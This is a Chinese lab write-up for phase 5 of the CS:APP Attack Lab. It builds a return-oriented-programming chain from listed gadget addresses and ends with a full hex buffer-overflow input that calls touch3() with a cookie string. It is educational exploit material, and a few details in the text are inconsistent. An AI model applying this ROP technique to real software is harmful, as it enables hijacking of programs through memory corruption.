 由于此后我们要用到很多`mov`指令，我们在farm中检索目标代码`58`（因为`movl`指令包含在`movq`指令中），找出所有可以用到的`mov`指令。

| gadget地址 |     mov效果     |
| :--------: | :-------------: |
|  0x4019a2  | mov %rax, %rdi  |
|  0x4019c5  | mov %rax, %rdi  |
|  0x4019dd  | mov %eax, %edx  |
|  0x401a06  | mov %rsp, %rax  |
|  0x401a13  | mov %ecx, %esi  |
|  0x401a27  | mov %ecx, %esi  |
|  0x401a34  | mov %edx, %ecx  |
|  0x401a42  | mov % eax, %edx |

由于没有直接得到`mov %rsp, %rdi`，于是，我们可以先把`%rsp`移入`%rax`，再把`%rax`移入`%rdi`，即使用`0x401a06`和`0x4019a2`。

#### 2. 把偏移量移入`%rsi`

要把偏移量移入`%rsi`，需要`pop`指令。但由于farm中只有`pop %rax`，只能找`%rax`作为中介。则下一行应该写`pop`进去的偏移量。由于偏移量目前未知，这“一行”的8字节先暂时空缺，待到覆写完`cookie`字符串再修改。

下面就要把`%rax`移入`%rsi`。查上面的表，要拆为三个步骤：`mov % eax, %edx`，`mov %edx, %ecx`和`mov %ecx, %esi`，即栈地址从小到大分别存入`0x401a42`，`0x401a34`和`0x401a27`。

#### 3. 调用`lea (%rdi,%rsi,1),%rax`

这一指令的地址为`0x4019d6`。

#### 4. 把`%rax`移入`%rdi`

查表，得到gadget的地址`0x4019c5`。

#### 5. 调用`touch3()`

其地址为`0x4018fa`。

#### 6. 覆写`cookie`字符串

覆写字符串后，计算出偏移量为72。

综上，输入字符串如下：

```plaintext
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
06 1a 40 00 00 00 00 00 /* mov rsp rax */
c5 19 40 00 00 00 00 00 /* mov rax rdi; rdi所存为'c5'的位置 */
cc 19 40 00 00 00 00 00 /* pop rax; 此时rsp指向'下一行'的offset */
48 00 00 00 00 00 00 00 /* offset = 72 = 0x48 */
42 1a 40 00 00 00 00 00 /* mov eax edx */
34 1a 40 00 00 00 00 00 /* mov edx ecx */
27 1a 40 00 00 00 00 00 /* mov ecx esi */
d6 19 40 00 00 00 00 00 /* lea (%rdi,%rsi,1),%rax */ 
a2 19 40 00 00 00 00 00 /* mov rax rdi */
fa 18 40 00 00 00 00 00 /* touch3() */
35 39 62 39 39 37 66 61
00                      /* byte representation of cookie */
```

